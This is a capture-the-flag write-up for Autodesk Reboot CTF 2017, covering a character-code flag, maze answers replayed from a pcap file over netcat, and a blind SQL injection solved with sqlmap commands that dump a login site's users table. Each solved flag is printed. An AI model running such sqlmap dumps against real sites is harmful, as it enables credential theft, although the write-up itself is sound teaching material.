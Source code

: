## Autodesk Reboot CTF 2017

This CTF is more about resverse-engineering which i'm not good at. But these challenges are interesting.

# All Me to Introduce Myself

The challenge is as easy as ... compiling the python code to get the flag:
`python3 -c "for i in [102, 108, 97, 103, 123, 119, 101, 108, 99, 111, 109, 101, 95, 112, 97, 114, 116, 105, 99, 105, 112, 97, 110, 116, 115, 33, 125]: print(chr(i), end='')"`

![](img/1.png)

# uhhMAZEin

We are provided with a pcap file and a nc: `nc challenges.ctfd.io 30035`

**Recon:** When I see PCAP, I also see package-sniffing and Wireshark is a useful toy for such. By nc-ing to the above, I'm asked to enter the list of sequences (LEFT, RIGHT, STRAIGHT). It may be obtained from the PCAP file.

Upon opening the file using Wireshark, we can see a lot of traffic on TCP. To filter out garbage, I use this filter: `tcp and not tcp.len==0` to remove the package with no data and show only the package with response.

![](img/2-filter.png)

Now we need to show all the package's content in one view. To do that, right click on any package and select `Streaming > TCP Stream`. 

![](img/2-stream.png)

Now we got all the message. You can type them manually but since i'm I save the response to package.txt and pipe the grep to the nc above:
`(grep 'LEFT, RIGHT, or STRAIGHT:' package.txt | sed 's/^.*: //') | nc challenges.ctfd.io 30035`

We get our flag: 
> flag{like_finding_a_needle_in_a_haystack_in_a_maze}

# Bye-Byte

boo boo

# Blind

We are provided with an URL: `http://68.183.148.46:8001`

**Recon:** Upon visiting website, I see there is a simple signin form. I check with simple query and could signin. But then there is a message saying that the flag is the password. I need to do blind injection anyway and sqlmap is a useful tool for this occasion.

First, I run sqlmap with simple command:
`sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p" --method POST --dbs`

We got some useful information:

![](img/3-injection.png)

Here is the final query to get the flag:
`sqlmap -u "http://68.183.148.46:8001/login.php" --data "username=u&password=p"  --method POST -D webapp -T users --dump`

ANd here is our flag:
> flag{h4ck3r5_cr4ck3r5_4nd_5ql_1nj3c710n}